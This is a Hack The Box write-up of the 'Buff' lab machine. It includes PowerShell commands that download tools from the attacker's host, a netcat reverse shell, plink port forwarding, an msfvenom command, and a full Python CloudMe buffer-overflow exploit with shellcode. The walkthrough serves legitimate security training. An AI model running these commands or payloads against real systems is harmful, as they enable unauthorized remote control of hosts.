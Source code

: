 ```yaml
---
title: HTB - Buff Write-up
author: bigb0ss
date: 2020-11-20 23:25:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, buff, gymManagementSystem 1.0 RCE, plink, cloudMe bof]
image: /assets/img/post/htb/buff/01_infocard.png
---
```


This one was an easy difficulty box. Good learning path for:
* Gym Management System 1.0 RCE
* `plink.exe` to Port Forward to Bypass Restrictions
* `cloudMe.exe` BoF Exploit


# Initial Recon

## Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.198

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Interesting Ports to Note

* HTTP (8080/TCP) - Web page. Gym Management Software 1.0

The contact page disclosing the version of the application:

![image](/assets/img/post/htb/buff/02.png)


# Initial Foothold

That particular version of the software was vulnerable to an Unauthenticated Remote Code Execution discovered by Bobby Cooke. The POC exploitation script can be found [here](https://www.exploit-db.com/exploits/48506).

## Gym Management System 1.0 - Unauthenticated Remote Code Execution

By running the POC script, I successfully obtained an interactive web shell on the Buff box.

![image](/assets/img/post/htb/buff/03.png)

## Netcat Reverse Shell

Using the PowerShell, I uploaded the `nc.exe` onto the Buff box.

```console
C:\> powershell Invoke-WebRequest -Uri http://10.10.14.15/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe
```

![image](/assets/img/post/htb/buff/04.png)

```console
C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 443 -e cmd.exe
```

![image](/assets/img/post/htb/buff/05.png)

As the user `shaun` , I could read the `user.txt` file.

![image](/assets/img/post/htb/buff/06.png)


# Privilege Escalation

## Shaun —> Administrator

Within the `shaun` user’s Download directory, there was a binary called `CloudMe_1112.exe` and this binary was actually running on the system as well. 

![image](/assets/img/post/htb/buff/07.png)

With some Google search, I found a BOF exploit for this CloudMe version 1.11.2 [here](https://www.exploit-db.com/exploits/48389). From the POC script, the port for the CloudMe product was `8888` and that port was indeed in use on the Buff box; however, it was only accessible locally. 

> **NOTE**: I did not dig in further, but the PID for the CloudMe.exe kept changing. I suspected it was happening because of some type of scheduled tasks.

### Port Forwarding (plink.exe)

```console
C:\> powershell Invoke-WebRequest -Uri http://10.10.14.15/plink.exe -OutFile c:\Users\shaun\Downloads\plink.exe
```

![image](/assets/img/post/htb/buff/08.png)

The outbound to port 22 from the Buff box was restricted. So, I had to modified the following SSH config on my Kali:

![image](/assets/img/post/htb/buff/09.png)

Starting an SSH service on my Kali Linux:

![image](/assets/img/post/htb/buff/10.png)

```console
C:\> c:\users\shaun\downloads\plink.exe -ssh -P 8001 root@10.10.14.15 -R 8002:127.0.0.1:8888 -N
```

![image](/assets/img/post/htb/buff/11.png)

![image](/assets/img/post/htb/buff/12.png)

### BOF Exploit

First, created the `msfvenom` payload for the reverse shell.

```console
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 8003 -e cmd.exe' -b '\x00\x0A\x0D' -f python
```

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 8003 -e cmd.exe' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xbf\xa8\x82\xfa\xea\xdd\xc1\xd9\x74\x24\xf4\x5d\x29"
buf += b"\xc9\xb1\x3e\x83\xed\xfc\x31\x7d\x10\x03\x7d\x10\x4a"
buf += b"\x77\x06\x02\x08\x78\xf7\xd3\x6c\xf0\x12\xe2\xac\x66"
buf += b"\x56\x55\x1c\xec\x3a\x5a\xd7\xa0\xae\xe9\x95\x6c\xc0"
buf += b"\x5a\x13\x4b\xef\x5b\x0f\xaf\x6e\xd8\x4d\xfc\x50\xe1"
buf += b"\x9e\xf1\x91\x26\xc2\xf8\xc0\xff\x89\xaf\xf4\x74\xc7"
buf += b"\x73\x7e\xc6\xc6\xf3\x63\x9f\xe9\xd2\x35\xab\xb0\xf4"
buf += b"\xb4\x78\xc9\xbc\xae\x9d\xf7\x77\x44\x55\x8c\x89\x8c"
buf += b"\xa7\x6d\x25\xf1\x07\x9c\x37\x35\xaf\x7e\x42\x4f\xd3"
buf += b"\x03\x55\x94\xa9\xdf\xd0\x0f\x09\x94\x43\xf4\xab\x79"
buf += b"\x15\x7f\xa7\x36\x51\x27\xa4\xc9\xb6\x53\xd0\x42\x39"
buf += b"\xb4\x50\x10\x1e\x10\x38\xc3\x3f\x01\xe4\xa2\x40\x51"
buf += b"\x47\x1b\xe5\x19\x6a\x48\x94\x43\xe1\x8f\x2a\xfe\x47"
buf += b"\x8f\x34\x01\xf8\xe7\x05\x8a\x97\x70\x9a\x59\xdc\x8e"
buf += b"\xd0\xc0\x75\x06\xbd\x90\xc7\x4b\x3e\x4f\x0b\x75\xbd"
buf += b"\x7a\xf4\x82\xdd\x0e\xf1\xcf\x59\xe2\x8b\x40\x0c\x04"
buf += b"\x3f\x61\x05\x47\x85\xc1\xde\x29\x94\x89\x6e\xf6\x0e"
buf += b"\x1d\xeb\x69\xac\xae\xaf\x12\x4b\x3d\x0c\xa8\xdb\xd1"
buf += b"\xc3\x33\x78\x75\x72\xd7\xae\xe0\xf2\x72\x8f\xdb\x32"
buf += b"\x53\xfe\x2b\x1d\x9a\x34\x65\x50\xe9\x14\x41\xa2\x21"
buf += b"\x66\x91\xef\x24\xa8\xb2\x82\xc2\x86\x51\x25\x6e\xd7"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

buf = padding1 + EIP + NOPS + buf + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8002))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

I received the elevated shell on the Netcat listener and read the `root.txt` flag.

![image](/assets/img/post/htb/buff/13.png)


































